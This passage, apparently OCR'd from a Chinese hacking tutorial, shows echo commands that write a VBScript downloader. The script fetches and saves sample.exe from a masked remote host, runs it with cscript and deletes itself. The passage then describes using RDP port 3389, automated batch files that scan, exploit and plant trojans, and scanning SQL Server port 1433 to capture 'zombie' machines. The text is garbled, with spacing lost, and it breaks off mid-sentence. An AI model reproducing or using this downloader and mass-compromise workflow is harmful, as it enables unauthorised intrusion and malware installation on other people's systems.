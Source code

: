 echosGet.Write(xPost.responseBody)>>iget.vbe

echosGet.SaveToFileiLocal,2>>iget.vbe

cscriptiget.vbehttp://*。*。*。*/sample.exesample.exe

利用Http网站vbe法

echoSetxPost=CreateObject("Microsoft.XMLHTTP")

\>dsa.vbe

echoxPost.Open"GET","http://*.*.*.*/sample.exe",0

\>>dsa.vbe

echoxPost.Send()>>dsa.vbe

echoSetsGet=CreateObject("ADODB.Stream")>>dsa.vbe

echosGet.Mode=3>>dsa.vbe

echosGet.Type=1>>dsa.vbe

echosGet.Open()>>dsa.vbe

echosGet.Write(xPost.responseBody)>>dsa.vbe

echosGet.SaveToFile"sample.exe",2>>dsa.vbecscript

dsa.vbe

deldsa.vbe

### 3389法

可以开3389，然后登陆，进行本地的下载。该方法对服务

器上传很严格的机器特有效。（包括硬件防火墙）

先打开多个NC.bat,然后再打开扫描+溢出.bat,然后你就可以

去睡大觉了。自动扫描，扫描完后自动溢出，溢出后还自动下

马执行，爽吧！所以这里讲详细点，呵呵。还有4221端口也

可以这样溢出，只要用这些端口的溢出工具就好了，详细动画

可以去黑客网站搜索1433。

忘了说，上面的工具和批处理什么的都要放在同一个文件

夹下。

先休息一下，打这么多字累死了

继续

## 5、扫1433抓肉鸡之方法2

要用到的工具：端口扫描器X-scanSQL综合利用工具

上面我们说过了，1433溢出现在成功率已经不高了，所以我

